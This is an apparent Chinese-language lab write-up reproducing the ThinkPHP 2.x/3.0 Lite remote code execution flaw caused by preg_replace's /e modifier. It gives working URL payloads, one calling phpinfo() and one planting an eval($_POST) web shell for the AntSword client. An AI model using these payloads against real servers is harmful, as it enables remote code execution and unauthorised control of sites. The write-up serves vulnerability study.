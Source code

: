 ```yaml
---
title: ThinkPHP 2.x 任意代码执行漏洞
date: 2020-06-13 15:48:27
categories: 漏洞复现
tags: ThinkPHP
---
```


#### 背景

ThinkPHP 2.x版本中，使用`preg_replace`的`/e`模式匹配路由：

```php
$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));
```

导致用户的输入参数被插入双引号中执行，造成任意代码执行漏洞。

ThinkPHP 3.0版本因为Lite模式下没有修复该漏洞，也存在这个漏洞。

<!--more-->

#### 复现过程

1.使用如下POC可查看phpinfo信息

```
http://your-ip:8080/index.php?s=/index/index/name/$%7B@phpinfo()%7D
```



![](http://qn.laohuan.xin/2020-06-13_15-57-09.png)





2.使用蚁剑连接

```
http://IP:8080/index.php?s=/index/index/name/${@print%28eval%28$_POST[1234]%29%29}
```



![](http://qn.laohuan.xin/2020-06-13_16-15-37.png)

3.url编码

* %7B: {
* %7D: }
* %28: (
* %29: )

#### 参考链接

<http://github.com/vulhub/vulhub/tree/master/thinkphp/2-rce/>
